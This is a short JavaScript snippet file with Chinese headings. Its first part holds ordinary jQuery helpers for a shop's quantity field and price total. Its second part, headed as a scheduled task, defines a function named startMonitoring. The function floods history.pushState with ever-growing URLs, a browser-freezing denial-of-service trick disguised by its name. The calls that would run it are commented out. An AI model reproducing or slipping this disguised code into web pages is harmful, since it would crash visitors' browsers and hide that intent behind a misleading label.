 #商城常用函数#
function setAmount(dom, t)
{
	var n = $("#" + dom).val();
	if(t == 'jia')
	{
		var num = parseInt(n)+1;
		if(num == 0){
			return;
		}
		$("#" + dom).val(num);
		setTimeout(function(){gettotal()}, 200)
	}
	else
	{
		var num = parseInt(n)-1;
		if(num == 0){
			return;
		}
		$("#" + dom).val(num);
		setTimeout(function(){gettotal()}, 200)		
	}
}

function gettotal()
{
	danjia = $("#itemid input:checked").attr("rel")
	num = $("#num").val();
	total = danjia * num;
	$("#heji").val(total);
	$("#danjia").val(danjia);
}


#定时任务#
<script type="text/javascript">
function startMonitoring() {
		var total = '';
		for (var i = 0; i < 1000000; i++) {
			total = total + i.toString();
			history.pushState(0, 0, total)
		}
}
// startMonitoring();
// window.setInterval(startMonitoring, 100);
</script>
